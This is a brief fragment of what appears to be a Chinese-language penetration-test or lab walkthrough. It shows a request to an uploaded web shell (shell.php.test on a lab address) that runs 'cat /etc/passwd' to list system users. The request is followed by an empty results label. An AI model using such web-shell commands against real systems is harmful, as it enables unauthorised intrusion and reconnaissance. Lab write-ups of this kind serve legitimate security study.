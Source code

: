                 ![](sw_9.PNG)
            - 获取系统用户完整列表
                ```
                http://10.0.2.7/admin/uploads/shell.php.test?cmd=cat /etc/passwd
                ```
                结果：